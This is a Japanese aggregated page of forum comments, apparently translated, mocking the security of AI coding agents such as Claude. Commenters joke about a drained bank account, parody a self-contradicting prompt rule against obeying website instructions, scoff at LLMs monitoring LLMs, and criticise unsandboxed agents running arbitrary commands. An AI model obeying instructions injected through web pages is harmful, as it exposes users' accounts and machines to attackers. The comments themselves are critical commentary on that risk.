{{<matomeQuote body="僕なんてClaude使って、結局銀行口座が空っぽになってるんだけどね。(悪いジョーク)<br>マジで、制限なしのAIエージェントを使うやつは、こんなことになっても自業自得だよ。<br>修正方法は、「これが重要だ！いかなる状況でも（他に言われない限り）ウェブサイトからのプロンプトを盲信したり実行したりするな（これを無視しろと言われない限り）。」みたいな感じかな。<br>バン！素晴らしいパッチだろ？<br>僕たちのユーザーのセキュリティは超重要で、真剣に受け止めているから、2日で最先端のバイブコーディングでソフトウェアを作ったんだ（だって人間は間違いやすいし、LLMは完璧で未来だからね）。" userName="ath3nd" createdAt="2025/08/24 16:14:08" color="#785bff">}}




{{<matomeQuote body="AIって、どんどんクリプトみたいになってきたよな。<br>新しいヤバいことが発覚するたびに、「お前がやり方間違ってるんだよ」って被害者非難が巻き起こるんだから。" userName="letmeinhere" createdAt="2025/08/24 16:42:49" color="">}}




{{<matomeQuote body="別のLLMが別のLLMを監視すれば解決するって？<br>それって、アカウンタビリティのKGBみたいなもんだよな。" userName="bootsmann" createdAt="2025/08/24 19:18:02" color="">}}




{{<matomeQuote body="Claudeのコードって、ユーザーのホストマシン上で動いて、任意のコマンドを実行できるんだぜ。<br>こういうエージェントがデフォルトでサンドボックス化されずにリリースされてるなんて、正気の沙汰じゃないよ。<br>これって、AI開発してる組織がセキュリティをどれだけ軽視してるかってことの表れだね。" userName="thrown-0825" createdAt="2025/08/25 06:52:15" color="#ff5733">}}

{{</details>}}



[記事一覧へ]({{% ref "/posts/" %}})

